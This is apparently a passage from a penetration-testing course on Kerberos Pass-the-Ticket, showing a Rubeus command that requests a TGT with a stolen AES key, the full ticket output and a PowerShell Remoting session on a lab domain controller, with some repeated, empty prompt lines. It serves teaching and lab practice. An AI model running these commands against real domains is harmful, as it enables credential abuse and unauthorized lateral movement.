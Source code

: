 The above command will open a new cmd window. From that window, we can execute Rubeus to request a new TGT with the option `/ptt` to import the ticket into our current session and connect to the DC using PowerShell Remoting.

#### Rubeus - Pass the Ticket for lateral movement

```cmd-session
C:\tools> Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.3

[*] Action: Ask TGT

[*] Using aes256_cts_hmac_sha1 hash: 9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.htb\john'
[*] Using domain controller: 10.129.203.120:88
[+] TGT request successful!
[*] Base64(ticket.kirbi):

      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
      ZWZyZWlnaHQuaHRi
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/inlanefreight.htb
  ServiceRealm             :  INLANEFREIGHT.HTB
  UserName                 :  john
  UserRealm                :  INLANEFREIGHT.HTB
  StartTime                :  7/18/2022 5:44:50 AM
  EndTime                  :  7/18/2022 3:44:50 PM
  RenewTill                :  7/25/2022 5:44:50 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  5VdAaevnpxx/f9rXsDDLfK6tH+4qQ3f1GlOB1ClBWh0=
```

[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>
[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
